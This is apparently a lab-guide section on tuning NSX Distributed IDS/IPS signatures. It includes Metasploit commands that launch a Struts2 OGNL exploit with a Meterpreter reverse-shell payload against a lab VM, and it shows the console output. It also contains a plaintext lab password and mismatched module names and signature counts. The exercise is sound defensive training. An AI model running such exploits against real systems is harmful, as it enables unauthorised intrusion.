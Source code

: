 
## 8. Advanced Attack and Configuration
**Estimated Time to Complete: 60 minutes**

In this **optional** exercise, we will explore some more advanced options in the NSX Distributed IDS/IPS Configuration
 * Tuning IDS/IPS Profile to turn off irrelevant signatures
 * Attempt to evade IDS/IPS detection by using obfuscations
 * Enable IDS/IPS event logging directly from each host to a syslog collector/SIEM

**Tuning IDS/IPS Profile to turn off irrelevant signatures**

> **Note**: Within an IDS/IPS Profile, you can define exclusions in order to turn off particular signatures within the context of that profile. Reasons to exclude signatures include false positives, noisy or irrelevant signatures being triggered.

1.	From the console session with  **External VM**, type **sudo msfconsole** to launch **Metasploit**. Enter **VMware1!** if prompted for a password. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/multi/http/struts2_namespace_ognl** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **exploit** to initiate the exploit, esbalish a reverse shell, and background the session.

> **Note**: This exploit will fail as  **App1-WEB-TIER VM** is not running an Apache Struts service vulnerable to this exploit.
    
```console
msf5 >  use exploit/multi/http/struts2_content_type_ognl
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(multi/http/struts2_content_type_ognl) > exploit

[*] Started reverse TCP handler on 10.114.209.151:4444
[-] Exploit aborted due to failure: bad-config: Server returned HTTP 404, please double check TARGETURI
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/struts2_content_type_ognl) >
```
2. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Events
3. Confirm 4 signatures have fired:
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638)
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638) M2
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638) M3
4. Note that the **affected product** for all these events is **Apache_Struts2** and the severity for all events is **high**.
5. Now we will turn off these signatures for the **Production** profiles as we are not running **Apache_Struts2** in our production environment.
6. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Profiles
7.	Click the **3 dots** next to the **Production** profile and click **Edit** to edit the profile.
8. Click **Select** next to **High Severity Signatures**
9. In the **Filter** field, type **Apache_Struts2** to find all signatures related to Struts2. Tick the **Checkbox** on top of the exclusion screen to select all filtered signatures.

![](assets/images/IDPS_POC_21.PNG)

10. Click **Add** to add the selected signatures to th exclusion list for the **Production** profile.
11. Click **Save** to save the **Production** profile.



---

[***Next Step: 9. Segmentation***](/docs/9-Segmentation.md)
